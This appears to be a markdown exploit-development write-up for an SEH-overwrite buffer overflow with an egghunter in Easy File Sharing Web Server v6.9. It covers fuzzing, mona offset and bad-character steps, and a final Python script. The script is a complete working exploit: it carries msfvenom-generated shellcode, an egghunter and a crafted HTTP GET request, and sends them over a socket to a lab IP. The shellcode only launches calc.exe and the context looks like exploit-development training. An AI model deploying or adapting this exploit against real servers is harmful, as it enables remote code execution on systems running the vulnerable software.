 # seh_egghunter



### 1. Fuzzing



- nseh and seh records has been overwritten by AAAA 
- we have a structured exception handling buffer overflow



![image-20201218004658886](seh_egghunter.assets/image-20201218004658886.png)



### 2. Finding Offset



- we will find offset to the first nseh and seh record so that we can overwrite them with our value
- once successful we will control instruction pointer

```
!mona pattern_create 5000
```

```
!mona pattern_offset 34664633
```



##### pattern offset

```
4061 bytes
```



### 3. pop pop ret sequence



- we need to find value of pop pop ret sequence

```
!mona seh -m -o
```

- seh.txt file will be saved take a memory address with no null characters



- imagebase.dll was taken in my case

```
0x100103fe [ImageLoad.dll]
```





### 4. Finding bad chars

- Mona byte array to address comparison for bad characters


```
!mona compare -f c:\mona\fsws\bytearrray.bin -a address
```

- bad chars

```
badchars "\x00\x20\x25\x2b\x2f\x5c"
```



### 5. Final skeleton

- without egghunter skeleton

offset = 4061

nseh = jmp short

seh  = pointer to pop pop ret

nops led = "\x90" * 50

buf  payload

```
crash1 = "A" * offset + nseh + seh +"\x90" * 50 + buf
```





### 6. with egghunter



##### cyclic pattern



```
!mona findmsp
```

![image-20201218162423663](seh_egghunter.assets/image-20201218162423663.png)

- we will use cyclic pattern to find it in memory

- there is second field where we can put our payload 
- in user agent will put our payload along with egg
- and in first field we will put our egghunter



- this will give us egg without these badcharacters

```
!mona egg -cpb "\x00\x20\x25\x2b\x2f\x5c"
```



![image-20201218153710456](seh_egghunter.assets/image-20201218153710456.png)



### 7. egg

- once we have created egghunter now we have to place the egg
- we place the egg twice as it will help in not going to the code where we have defined egg for searching egg hunter



```python
#skeleton of egg hunter

offset = 4061
nseh = "\xeb\x06\x90\x90"
seh = "\xfe\x03\x01\x10"

egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

crash1 = "A" * offset + nseh + seh +"\x90" * 50 + egghunter + "\x90" * 50           (5000-offset-4-4-len(badchars)-16)

calc = buf

payload = "GET " + crash1 + " HTTP/1.1\r\n"
payload += "Host: 172.16.62.128\r\n"
payload += "User-Agent: w00tw00t" + calc + "\r\n"
```









### final script



```python
#!/usr/bin/env python


#GET /favicon.ico HTTP/1.1
#Host: 172.16.62.128
#User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
#Accept: image/webp,*/*
#Accept-Language: en-US,en;q=0.5
#Accept-Encoding: gzip, deflate
#DNT: 1
#Connection: keep-alive
#Referer: http://172.16.62.128/
#Cookie: SESSIONID=23475

#HTTP/1.0 400 Bad Request
#Server: Easy File Sharing Web Server v6.9
#Date: Fri, 18 Dec 2020 00:27:21 GMT


import socket
import os

#SEH chain of thread 00000D5C
#Address    SE handler
#04906FAC   46356646
#34664633   *** CORRUPT ENTRY ***

#nseh offset 4061
#0x100103fe [ImageLoad.dll] 

#badchars "\x00\x20\x25\x2b\x2f\x5c"


#msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -b "\x00\x20\x25\x2b\x2f\x5c" -f c 
buf = ("\xdd\xc2\xd9\x74\x24\xf4\x5a\xbe\x9a\x23\xfb\xb9\x33\xc9\xb1"
"\x31\x31\x72\x18\x03\x72\x18\x83\xea\x66\xc1\x0e\x45\x7e\x84"
"\xf1\xb6\x7e\xe9\x78\x53\x4f\x29\x1e\x17\xff\x99\x54\x75\xf3"
"\x52\x38\x6e\x80\x17\x95\x81\x21\x9d\xc3\xac\xb2\x8e\x30\xae"
"\x30\xcd\x64\x10\x09\x1e\x79\x51\x4e\x43\x70\x03\x07\x0f\x27"
"\xb4\x2c\x45\xf4\x3f\x7e\x4b\x7c\xa3\x36\x6a\xad\x72\x4d\x35"
"\x6d\x74\x82\x4d\x24\x6e\xc7\x68\xfe\x05\x33\x06\x01\xcc\x0a"
"\xe7\xae\x31\xa3\x1a\xae\x76\x03\xc5\xc5\x8e\x70\x78\xde\x54"
"\x0b\xa6\x6b\x4f\xab\x2d\xcb\xab\x4a\xe1\x8a\x38\x40\x4e\xd8"
"\x67\x44\x51\x0d\x1c\x70\xda\xb0\xf3\xf1\x98\x96\xd7\x5a\x7a"
"\xb6\x4e\x06\x2d\xc7\x91\xe9\x92\x6d\xd9\x07\xc6\x1f\x80\x4d"
"\x19\xad\xbe\x23\x19\xad\xc0\x13\x72\x9c\x4b\xfc\x05\x21\x9e"
"\xb9\xfa\x6b\x83\xeb\x92\x35\x51\xae\xfe\xc5\x8f\xec\x06\x46"
"\x3a\x8c\xfc\x56\x4f\x89\xb9\xd0\xa3\xe3\xd2\xb4\xc3\x50\xd2"
"\x9c\xa7\x37\x40\x7c\x06\xd2\xe0\xe7\x56")

offset = 4061
nseh = "\xeb\x06\x90\x90"
seh = "\xfe\x03\x01\x10"

egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

crash1 = "A" * offset + nseh + seh +"\x90" * 50 + egghunter + "\x90" * 50          #+ badchars + "\x90" * (5000-offset-4-4-len(badchars)-16)

calc = buf

#crash1 = "A" * 4061 + badchars + "B" * (1000-len(badchars))

payload = "GET " + crash1 + " HTTP/1.1\r\n"
payload += "Host: 172.16.62.128\r\n"
payload += "User-Agent: w00tw00t" + calc + "\r\n"

print("[+] send payload")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = s.connect(("172.16.62.128",80))

s.send(payload)
s.close()

```



